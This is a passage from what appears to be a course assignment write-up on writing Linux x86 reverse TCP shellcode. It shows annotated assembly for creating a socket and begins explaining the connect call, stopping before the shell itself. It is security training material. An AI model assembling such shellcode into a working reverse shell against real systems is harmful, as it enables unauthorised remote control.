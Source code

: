 ## Generate a TCP socket

An explanation on how to create a socket is detailed on [Assignment #1 - Shellcode for a Bind TCP Shell](../../Assignment_1/Docs/Assignment_1.html).

Furthermore, the assembly code for this part of the reverse TCP shell would be similar to the bind TCP shell:

````
; Creating a TCP socket

xor eax,eax             ;zeroed eax
mov ebx,eax             ;zeroed ebx
mov ecx,eax             ;zeored ecx
; socket call requires socket(AF_INET,SOCK_STREAM,0)
push eax                ;sets socket.protocol = 0
push 1                  ;sets socket.type = 1 = SOCK_STREAM
push 2                  ;sets socket.domain = 2 = AF_INET
; sys_socketcall requires ecx--> args (loaded on esp), ebx --> SYS_SOCKET, eax --> 0x66
mov ecx,esp             ;loads the arguments on ecx
inc ebx                 ;ebx now is 0x1 to declare SYS_SOCKET function on sys_socketcall
mov al,0x66             ;defines syscall as sys_socketcall(number,args)
int 0x80                ;executes the call to sys_socketcall
mov edi,eax             ;stores the file descriptor (fd) on edi
````
``Assembly code for creating a TCP socket``

## Connecting the socket to remote port

The *man* page for *connect* details the structure needed to initiate a connection from a local socket to a remote address.

![](../Images/01_slae_assignment_2.png)

``man connect``

As the arguments needed for calling *connect* and *bind* are similar (and *bind* was covered on [previous exercise](/assignment1)), this page will only explain the differences when calling *connect* function.

The master header file for the Linux NET layer specifies the protocol number for **SYS_CONNECT** as **3**.
![](../Images/02_slae_assignment_2.png)
